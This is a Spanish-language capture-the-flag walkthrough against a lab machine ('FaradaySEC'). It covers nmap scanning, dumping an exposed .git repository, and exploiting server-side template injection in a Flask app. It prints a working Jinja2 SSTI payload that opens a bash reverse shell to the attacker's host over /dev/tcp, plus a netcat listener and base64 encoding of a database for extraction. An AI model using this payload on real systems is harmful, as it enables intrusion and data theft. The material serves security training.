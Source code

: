 #Advanced-Labs 

### Ping

```python
ping -c 1 10.13.37.14
PING 10.13.37.14 (10.13.37.14) 56(84) bytes of data.
64 bytes from 10.13.37.14: icmp_seq=1 ttl=63 time=167 ms

--- 10.13.37.14 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 166.552/166.552/166.552/0.000 ms
```

### nmap

```python
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-12 17:20 EDT
Nmap scan report for 10.13.37.14
Host is up (0.17s latency).
Not shown: 65524 closed tcp ports (reset), 8 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a8:05:53:ae:b1:8d:7e:90:f1:ea:81:6b:18:f6:5a:68 (RSA)
|   256 2e:7f:96:ec:c9:35:df:0a:cb:63:73:26:7c:15:9d:f5 (ECDSA)
|_  256 2f:ab:d4:f5:48:45:10:d2:3c:4e:55:ce:82:9e:22:3a (ED25519)
80/tcp   open  http            nginx 1.13.12
| http-title: Notifications
|_Requested resource was http://10.13.37.14/login?next=%2F
| http-git: 
|   10.13.37.14:80/.git/
|     Git repository found!
|     .git/config matched patterns 'user'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Add app logic & requirements.txt 
|_http-server-header: nginx/1.13.12
8888/tcp open  sun-answerbook?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, LSCP, RPCCheck, RTSPRequest, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     Welcome to FaradaySEC stats!!!
|     Username: Bad chars detected!
|   NULL: 
|     Welcome to FaradaySEC stats!!!
|_    Username:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8888-TCP:V=7.94SVN%I=7%D=7/12%Time=66919E43%P=x86_64-pc-linux-gnu%r
SF:(NULL,29,"Welcome\x20to\x20FaradaySEC\x20stats!!!\nUsername:\x20")%r(Ge
SF:tRequest,3C,"Welcome\x20to\x20FaradaySEC\x20stats!!!\nUsername:\x20Bad\
SF:x20chars\x20detected!")%r(HTTPOptions,3C,"Welcome\x20to\x20FaradaySEC\x
SF:20stats!!!\nUsername:\x20Bad\x20chars\x20detected!")%r(FourOhFourReques
SF:t,3C,"Welcome\x20to\x20FaradaySEC\x20stats!!!\nUsername:\x20Bad\x20char
SF:s\x20detected!")%r(JavaRMI,3C,"Welcome\x20to\x20FaradaySEC\x20stats!!!\
SF:nUsername:\x20Bad\x20chars\x20detected!")%r(LSCP,3C,"Welcome\x20to\x20F
SF:aradaySEC\x20stats!!!\nUsername:\x20Bad\x20chars\x20detected!")%r(Gener
SF:icLines,3C,"Welcome\x20to\x20FaradaySEC\x20stats!!!\nUsername:\x20Bad\x
SF:20chars\x20detected!")%r(RTSPRequest,3C,"Welcome\x20to\x20FaradaySEC\x2
SF:0stats!!!\nUsername:\x20Bad\x20chars\x20detected!")%r(RPCCheck,3C,"Welc
SF:ome\x20to\x20FaradaySEC\x20stats!!!\nUsername:\x20Bad\x20chars\x20detec
SF:ted!")%r(DNSVersionBindReqTCP,3C,"Welcome\x20to\x20FaradaySEC\x20stats!
SF:!!\nUsername:\x20Bad\x20chars\x20detected!")%r(DNSStatusRequestTCP,3C,"
SF:Welcome\x20to\x20FaradaySEC\x20stats!!!\nUsername:\x20Bad\x20chars\x20d
SF:etected!")%r(Help,3C,"Welcome\x20to\x20FaradaySEC\x20stats!!!\nUsername
SF::\x20Bad\x20chars\x20detected!")%r(SSLSessionReq,3C,"Welcome\x20to\x20F
SF:aradaySEC\x20stats!!!\nUsername:\x20Bad\x20chars\x20detected!")%r(Termi
SF:nalServerCookie,3C,"Welcome\x20to\x20FaradaySEC\x20stats!!!\nUsername:\
SF:x20Bad\x20chars\x20detected!")%r(TLSSessionReq,3C,"Welcome\x20to\x20Far
SF:adaySEC\x20stats!!!\nUsername:\x20Bad\x20chars\x20detected!")%r(Kerbero
SF:s,3C,"Welcome\x20to\x20FaradaySEC\x20stats!!!\nUsername:\x20Bad\x20char
SF:s\x20detected!")%r(SMBProgNeg,3C,"Welcome\x20to\x20FaradaySEC\x20stats!
SF:!!\nUsername:\x20Bad\x20chars\x20detected!")%r(X11Probe,3C,"Welcome\x20
SF:to\x20FaradaySEC\x20stats!!!\nUsername:\x20Bad\x20chars\x20detected!")%
SF:r(LPDString,3C,"Welcome\x20to\x20FaradaySEC\x20stats!!!\nUsername:\x20B
SF:ad\x20chars\x20detected!")%r(LDAPSearchReq,3C,"Welcome\x20to\x20Faraday
SF:SEC\x20stats!!!\nUsername:\x20Bad\x20chars\x20detected!")%r(LDAPBindReq
SF:,3C,"Welcome\x20to\x20FaradaySEC\x20stats!!!\nUsername:\x20Bad\x20chars
SF:\x20detected!");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.88 seconds
```

### Enumeración del puerto 80 (http)
parece que aqui podemos crear una cuenta para iniciar sesión 
![[Pasted image 20240712172822.png]]

`Alert system`
creamos la cuenta y luego podemos iniciar sesión
![[Pasted image 20240712172959.png]]

`Alert system`
aqui nos solicita una configuración para el servidor SMTP que recibirá alertas del sistema; Configuramos nuestro host con el puerto 25
![[Pasted image 20240712173218.png]]

seleccionamos un nombre para el servidor. en este caso lo dejo por defecto y le damos en `Send`
![[Pasted image 20240712174048.png]]

agregamos los datos que queremos para la alerta en este caso usare solo `test`
![[Pasted image 20240712174121.png]]

`flag`
después de enviar la alerta la recibimos en nuestro servidor de python en donde podemos ber la primera flag
![[Pasted image 20240712173809.png]]

### dirsearch
Vemos que existe el directorio “.git”, por lo que hay un proyecto Git abierto. Usando `git-dumper` podemos volcar todos los archivos de un proyecto ".git".
![[Pasted image 20240712175020.png]]

### git-dumper
instalamos la herramienta para poder dumpear todo el proyecto 
![[Pasted image 20240712175412.png]]

`dump_new`
aquí dumpeamos todo el proyecto para poder ejecutarlo
![[Pasted image 20240712175952.png]]

`app.py`
al leer el código del `scritp.py` puedo ver una linea que usa el `render_template_string` lo que me hace pensar que existe una vulnerabilidad así que vamos a mirarlo [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection?source=post_page-----889ef6888d79--------------------------------) 
![[Pasted image 20240712180855.png]]

### Vulnerabilidades

| CVE-XXXX-XXXXX | Nombre de la vulnerabilidad           | Tipo | Nivel | Link |
| -------------- | ------------------------------------- | ---- | ----- | ---- |
| none           | SSTI (Server Side Template Injection) | SSTI | none  | none |
|                |                                       |      |       |      |
|                |                                       |      |       |      |

Mientras leíamos el artículo sobre la vulnerabilidad, encontramos varias alternativas al uso de la ejecución de comandos. Al final nos queda el siguiente payload, el cual se encargará de ejecutar un comando que nos enviará un shell inverso con bash.

```python

{% if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('bash -c "bash -i >& /dev/tcp/ 10.10.14.18/443 0>&1"')['read']() == 'chiv' %} a {% endif %}

Nos quedara algo asi:

http://10.13.37.14/profile?name={%25+if+request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.20/443+0>%261"')['read']()+%3d%3d+'chiv'+%25}+a+{%25+endif+%25}
```

### nc -lvnp 443
al ejecutar la ruta anterior nos lleva directamente al área de reporte y aquí podemos enviar el test y estando a la escucha nos da una shell
![[Pasted image 20240712184542.png]]

### databases.db
necesitamos leer este archivo de base de datos pero para hacerlo de mejor manera lo vamos a encodear en base64 usando este comando

```python
base64 -w0 database.db
```

![[Pasted image 20240712203948.png]]

`ssqlite3`
copiamos 
![[Pasted image 20240712204304.png]]